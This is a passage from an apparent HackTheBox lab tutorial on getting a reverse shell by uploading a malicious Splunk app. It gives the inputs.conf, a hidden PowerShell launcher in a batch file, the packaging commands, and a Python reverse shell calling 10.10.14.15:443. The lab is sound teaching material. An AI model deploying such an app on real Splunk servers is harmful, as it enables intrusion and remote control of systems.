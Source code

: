 The [inputs.conf](https://docs.splunk.com/Documentation/Splunk/latest/Admin/Inputsconf) file tells Splunk which script to run and any other conditions. Here we set the app as enabled and tell Splunk to run the script every 10 seconds. The interval is always in seconds, and the input (script) will only run if this setting is present.

```shell
fango@htb[/htb]$ cat inputs.conf 

[script://./bin/rev.py]
disabled = 0  
interval = 10  
sourcetype = shell 

[script://.\bin\run.bat]
disabled = 0
sourcetype = shell
interval = 10
```

We need the .bat file, which will run when the application is deployed and execute the PowerShell one-liner.

```shell
@ECHO OFF
PowerShell.exe -exec bypass -w hidden -Command "& '%~dpn0.ps1'"
Exit
```

Once the files are created, we can create a tarball or `.spl` file.

```shell
fango@htb[/htb]$ tar -cvzf updater.tar.gz splunk_shell/

splunk_shell/
splunk_shell/bin/
splunk_shell/bin/rev.py
splunk_shell/bin/run.bat
splunk_shell/bin/run.ps1
splunk_shell/default/
splunk_shell/default/inputs.conf
```

If we were dealing with a Linux host, we would need to edit the `rev.py` Python script before creating the tarball and uploading the custom malicious app. The rest of the process would be the same, and we would get a reverse shell connection on our Netcat listener and be off to the races.

```python
import sys,socket,os,pty

ip="10.10.14.15"
port="443"
s=socket.socket()
s.connect((ip,int(port)))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn('/bin/bash')
```
